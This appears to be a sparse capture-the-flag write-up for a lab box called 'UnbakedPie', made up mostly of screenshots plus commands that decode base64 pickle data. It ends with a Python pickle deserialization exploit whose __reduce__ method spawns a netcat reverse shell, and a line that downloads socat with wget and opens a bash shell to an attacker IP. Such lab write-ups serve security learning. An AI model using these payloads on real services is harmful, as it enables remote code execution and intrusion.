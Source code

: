<h3> Search = test > ls >  hell</h3>

<img width="1097" height="233" alt="image" src="https://github.com/user-attachments/assets/4a4f313a-4773-4947-a94c-dbc256386bc0" />

```bash
:~/UnbakedPie# echo 'gASVCAAAAAAAAACMBHRlc3SULg==' | base64 -d | xxd
00000000: 8004 9508 0000 0000 0000 008c 0474 6573  .............tes
00000010: 7494 2e                                  t..
:~/UnbakedPie# echo 'gASVBgAAAAAAAACMAmxzlC4=' | base64 -d | xxd
00000000: 8004 9506 0000 0000 0000 008c 026c 7394  .............ls.
00000010: 2e                                       .
:~/UnbakedPie# echo 'gASVCQAAAAAAAACMBWhlbGxvlC4=' | base64 -d | xxd
00000000: 8004 9509 0000 0000 0000 008c 0568 656c  .............hel
00000010: 6c6f 942e                                lo..
```



<img width="1103" height="525" alt="image" src="https://github.com/user-attachments/assets/bb7c8fd9-a54c-44ed-8202-0cb5a3b02669" />

<img width="1110" height="237" alt="image" src="https://github.com/user-attachments/assets/185f34e1-feef-4727-a488-04961bfdeed6" />

<img width="1107" height="512" alt="image" src="https://github.com/user-attachments/assets/309387d6-cca8-4693-a676-ef3577ede72f" />


<img width="1088" height="340" alt="image" src="https://github.com/user-attachments/assets/d5ff35fe-fdde-44f6-9b22-e470bbad3582" />

<img width="1129" height="403" alt="image" src="https://github.com/user-attachments/assets/2f4539b0-3a5c-409c-909a-0aff253f4703" />

<img width="1128" height="441" alt="image" src="https://github.com/user-attachments/assets/76475db7-71a2-4b5f-8164-05a0622e1aa2" />




<br>
<br>
<br>

<img width="906" height="333" alt="image" src="https://github.com/user-attachments/assets/8ce9a800-8bb2-4530-9e0a-044049c30586" />
<img width="906" height="438" alt="image" src="https://github.com/user-attachments/assets/52afe7f9-7d75-4627-94a2-b13aa200875a" />


<img width="903" height="319" alt="image" src="https://github.com/user-attachments/assets/afe63f60-ee27-487b-8b77-3bdba5a1f059" />

<img width="907" height="385" alt="image" src="https://github.com/user-attachments/assets/f199d118-cbcc-4943-9fb9-a7ce49fc708c" />

<img width="889" height="422" alt="image" src="https://github.com/user-attachments/assets/c844faac-eff9-41fc-80dc-28c57d3afdb5" />


return (os.system,("wget http://10.10.12.109/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.10.12.109:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane ",))



```bash
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.132.109 4444 > /tmp/f')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))

```